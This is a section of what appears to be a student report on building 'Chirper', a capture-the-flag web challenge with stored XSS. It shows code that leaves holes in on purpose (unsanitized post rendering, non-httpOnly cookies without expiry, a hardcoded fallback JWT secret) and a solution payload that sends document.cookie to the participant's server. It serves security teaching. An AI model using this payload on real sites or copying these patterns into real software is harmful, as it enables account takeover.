\section{XSS Challenge}\label{sec:xss-challenge}

\subsection{Challenge Overview}

This challenge is called "Chirper" and sets up a system with a website where users can create posts that are vulnerable to XSS. Users can also create hidden posts, called drafts, and this is where the CTF flag is stored. XSS is a serious problem. Attackers can use XSS to send malicious code through a vulnerable system and get it to run on the end users' browsers, where it can then access cookies and manipulate the content of web pages\cite[pp. 507-508]{Stallings_Brown_2017}. XSS ranked number seven on the OWASP Top 10 in 2017, when it had its own category, and was found to be the second most prevalent issue\cite{owasp__xss_top_ten}.

The idea for this challenge came from knowledge gained from the course Networks and Cybersecurity\cite{sdu_dm586} and our interests in the web. We were all part of the design and implementation of this challenge. We developed the challenge by first splitting it into smaller tasks. Esben and Yannick worked on designing and implementing the website, and Tobias added password authentication and JWT\cite{rfc7519} cookies. Karsten configured the structure of the challenge using Docker and NGINX and created the simulated user service. Karsten and Tobias implemented the automated solution. Even though the tasks were split, the whole group had regular meetings to discuss and help with the various parts.

We expect the challenge to be of medium difficulty. To successfully complete the challenge, we either expect the participant to have basic knowledge about XSS or a willingness to learn about it.

% Every open challenge should be described providing the challenge name, a description of the challenge scenario, where the idea comes from, what participants need to accomplish (i.e., what skill is tested, the goal of the challenge) and the expected level of difficulty. In particular, you should also mention who was the primary proponent of the challenge, who was the primary developer and who else had a secondary role in the design/implementation of the challenge.

% Name:
% Description:
% Idea Inspiration:
% Skills tested:
% Expected level of difficulty:

\subsection{Technical Details}

\subsubsection{Challenge Design}

The vulnerabilities in this challenge are that the website is vulnerable to stored XSS. Users can write whatever they want in posts, which is then stored in a database and then rendered in other users' browsers. This is combined with non-httpOnly authentication cookies, meaning client-side code can access them. Thus, if a user creates a post containing a script, it will be executed whenever another user loads the post. To solve the challenge, the participant and the system have to go through the following steps:

\begin{itemize}
    \item Start an HTTP server and create the content for a post with XSS to steal cookies.
    \item Post it on the website.
    \item A simulated admin user will then render the post when they reload their page, thus executing the script in the post.
    \item Their authentication cookie will then be sent to the participant's HTTP server.
    \item The participant can now swap their auth token with the victims and find the flag in the draft posts.
\end{itemize}

\subsubsection{Architecture}

The diagram in Figure \ref{fig:xss-architecure} illustrates the architecture of this challenge. To implement the challenge with the vulnerabilities described above, we need the website (\texttt{chirp} service) to not sanitize posts, and to not mark authentication tokens as httpOnly. This is necessary to make sure client-side code from posts can access the cookies. We also store the posts in a PostgreSQL database, so posts can be saved for later. This allows for stored XSS attacks. To render the participant's posts and run the stored script, we have the \texttt{admin-user} service. This service accesses the website and keeps reloading the home page to see new posts. The \code{openssh} service allows the participant to connect to the challenge environment, where they can host an HTTP server that can receive the cookies when the admin user runs the XSS post.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\linewidth]{img/challenge-xss--architecture.png}
    \caption{XSS challenge architecture}
    \label{fig:xss-architecure}
\end{figure}

% \textbf{Solution Thing}

% The player's goal is to get access to the admin's user account on Chirp and see their hidden draft posts. To describe this process, we can utilize the Cyber Kill Chain framework\cite{lockheedmartin_cyber_kill_chain}, which has seven steps to describe an attacker's process. In the reconnaissance phase, the player must collect information about the website and what users are on it. They should then weaponize this and create the content for an XSS post. They then need to deliver it by submitting the post to the website, which stores it in the database. This leads to the other users' browsers running the XSS post in their browsers, sending their cookies to the player. The player can then use these JWT tokens to sign in and control the victim's account. They can then go into drafts and steal the admins' flag.

\subsubsection{Implementation}

To implement the website, we used Hono\cite{github__hono}, which is a simple web framework that can be used to create server-rendered websites. To show unsanitized content on the website, we use the HTML attribute \texttt{dangerouslySetInnerHTML}, so Hono knows not to sanitize it. This would often not be done in practice, and Hono also warns us by having "dangerously" in the attribute's name. However, in normal HTML and JavaScript, elements have a property called \texttt{innerHTML}, which does not warn us. Inexperienced developers might use this to render HTML. A snippet of our post component with this can be seen in Listing \ref{lst:xss-post-content-danger}. It uses JSX to insert the \texttt{post.body} in the \texttt{<p>} tag's \texttt{innerHTML}. 

\begin{listing}[H]
  \begin{minted}[linenos]{javascript}
<div class="post-body">
    {/* I found this cool attribute to set the body exactly how i want it! */}
    <p dangerouslySetInnerHTML={{ __html: post.body }} />
</div>
  \end{minted}
  \vspace{-1.5\baselineskip} % Justerer afstanden mellem tekst og liste
 \caption{Dangerously set \texttt{innerHTML}}
\label{lst:xss-post-content-danger}
\end{listing}
\noindent
In order to prevent marking cookies as httpOnly, we skip specifying it in the \texttt{setCookie} function provided by Hono. We also don't specify when cookies will expire. This is to make it easier for the participant, so they aren't pressed by time. This can be seen in Listing \ref{fig:xss-post-cookie}.

\begin{listing}[H]
  \begin{minted}[linenos]{javascript}
authRoutes.post("/login", async (c) => {
  const formData = await c.req.formData();
  const username = formData.get("username") as string;
  const password = formData.get("password") as string;

  const user = await findUserByUsername(username);
    
  // Validate password
  ...
  // Setup JWT cookie
  const payload: JWTPayload = {
    userId: user.id,
    // exp: Math.floor(Date.now() / 1000) + 60 * 5, // Token expires in 5 minutes
  }
  const secret = process.env.JWT_SECRET ?? 'mySecretKey';
  const jwtToken = await sign(payload, secret);
  setCookie(c, 'jwt', jwtToken);

  return c.redirect("/");
});
  \end{minted}
  \vspace {-1.5\baselineskip} % Justerer afstanden mellem tekst og liste
 \caption{Set non-httpOnly cookies with no expiration}
\label{fig:xss-post-cookie}
\end{listing}
\noindent
As stated, we have created a simulated admin user, with source code found in Appendix \ref{apx:xss-simulated-user}. This is the participant's victim, and it uses Puppeteer to sign in and get an authentication cookie. After it has signed in, it just keeps reloading the homepage every 15 seconds, so it will render new posts. A snippet of navigating to the login page and inserting the username and password is shown in Listing \ref{lst:xss-login}. We can use CSS selectors to select the input fields and the login button and interact with them.

\begin{minted}[linenos]{javascript}
...
const LOGIN_USERNAME_SELECTOR = "#username";
const LOGIN_PASSWORD_SELECTOR = "#password";
const LOGIN_BUTTON_SELECTOR = "#login-btn";
...
await page.goto(LOGIN_PAGE_URL);
await page.locator(LOGIN_USERNAME_SELECTOR).fill(USERNAME);
await page.locator(LOGIN_PASSWORD_SELECTOR).fill(PASSWORD);
await page.locator(LOGIN_BUTTON_SELECTOR).click();
...
  \end{minted}
\begin{listing}[H]
  \vspace {-1.5\baselineskip} % Justerer afstanden mellem tekst og liste
 \caption{Login using Puppeteer}
\label{lst:xss-login}
\end{listing}

\subsubsection{Testing}

To test our challenge, we have created a solution that mimics the steps the participant will have to take, as described earlier. The body of the post from our solution can be seen in Listing \ref{lst:xss-content}. It contains a \texttt{<script>} tag which uses the \texttt{fetch} function to perform a GET request, embedding the cookies as query parameters in the request URL.

\begin{listing}[H]
  \begin{minted}[linenos]{javascript}
const POST_BODY = `Very cool body.<script>fetch('http://${sshIpAddress}:${HTTP_SERVER_PORT}
    ?'%2Bdocument.cookie);</script>`;
  \end{minted}
  \vspace{-1.5\baselineskip} % Justerer afstanden mellem tekst og liste
 \caption{Post body from solution}
\label{lst:xss-content}
\end{listing}
\noindent
The challenge has been verified on the CTF platform with challenge ID: \\\texttt{0a516902-9dde-4add-b877-835de1c0ae21}.

\subsubsection{Difficulty Assessment}

We mark this challenge as medium difficulty. The participant needs to be able to realize the website is vulnerable to XSS and that the authentication cookies are available in client-side scripts. They then need to combine this knowledge and execute an attack. The challenge is quite easy if they know about XSS and httpOnly cookies, but it becomes harder if they don't.

% Provide a detail description of the implementation of the challenges including:
% \begin{itemize}
% 	\item Challenge Design: Step-by-step explanation of how the challenge works, including potential vulnerabilities, know how, or weaknesses that participants are expected to exploit. If possible use an image to illustrate the challenge architecture and how the different components interact.
% 	\item Environment and implementation: Describe the setup required (e.g., server configurations, programming language used, ...) and how the challenge was implemented.
% 	\item Tools and Resources: Any tools or libraries used for creating the challenge.
% 	\item Difficulties Encountered: Describe any technical or conceptual challenges the group faced while creating this challenge.
% 	\item Design Choices: Explain why certain design decisions were made (e.g., complexity level, choice of vulnerability, tools used).
% 	\item Testing Process: How the challenge was tested to ensure it works as intended.
% 	\item Difficulty Assessment: Rate and justify the challenge’s difficulty level.
% \end{itemize}


